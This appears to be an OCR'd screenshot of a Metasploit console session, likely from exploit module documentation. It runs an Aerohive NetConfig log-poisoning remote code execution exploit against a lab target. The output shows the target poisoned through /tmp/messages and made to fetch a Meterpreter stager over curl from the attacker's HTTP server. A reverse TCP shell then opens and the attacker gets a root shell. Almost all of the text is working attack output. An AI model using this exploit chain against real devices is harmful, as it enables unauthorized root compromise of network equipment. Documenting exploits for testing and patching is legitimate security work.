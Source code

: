 ```
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /                yes       The base path to Aerohive NetConfig
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.229    yes       The listen address (an interface may be specified)
   LPORT  4001             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > run

[*] Started reverse TCP handler on 192.168.1.229:4001
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 8.2r4
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Using URL: http://0.0.0.0:8080/d6UNmlXIko
[*] Local IP: http://192.168.1.229:8080/d6UNmlXIko
[*] Attempting to execute the payload
[!] In case of successful exploitation, the Aerohive NetConfig web application will hang for as long as the spawned shell remains open.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Client 192.168.1.151 (curl/7.50.1) requested /d6UNmlXIko
[*] Sending payload to 192.168.1.151 (curl/7.50.1)
[*] Sending stage (902096 bytes) to 192.168.1.151
[*] Attempting to clean the log file at /tmp/messages...
[!] Please note this will render the target (temporarily) unexploitable. This state can last over an hour.
[+] Successfully cleaned up the log by deleting the line with the PHP syscal from /tmp/messages.
[*] Meterpreter session 24 opened (192.168.1.229:4001 -> 192.168.1.151:52430 ) at 2021-11-02 16:55:12 +0000
[*] Server stopped.

meterpreter > shell
Process 3096 created.
Channel 1 created.
grep 'php system' /tmp/messages
id
uid=0(root) gid=0(root)
```
